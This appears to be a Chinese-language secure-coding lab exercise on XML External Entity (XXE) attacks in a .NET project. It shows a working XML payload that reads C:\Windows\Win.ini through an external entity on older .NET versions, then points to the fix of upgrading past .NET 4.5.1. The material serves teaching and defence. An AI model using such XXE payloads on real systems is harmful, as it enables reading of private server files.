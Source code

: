 # A4: XML External Entities (XXE)

## 目標

>透過載入 XML 文件來取得 C:\Windows\Win.ini 的檔案內容

## 練習步驟

1. 開啟**XXEDemo**專案中的 **XmlDemo.xml** 檔案。XML中的 Entity name 指向 C:\Windows\Win.ini 的檔案，當 .NET 版本為 4.5.1(含) 之前版本，會啟用 DTD 解析，所以執行程式後，會將 C:\Windows\Win.ini 的內容讀取出來。

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE order[
        <!ENTITY name SYSTEM 'C:\WINDOWS\WIN.INI'>
    ]>
    <order>
        <order_id>5e82da5d47ff063da0d6c3b5</order_id>
        <email>&name;</email>
    </order>
    ```

>修正
>
>1.請參考 todo: Session-6.2
>
>2.修改專案 .NET 4.5.1 以上版本建置後，再執行一次

[Back](./../../readme.md)
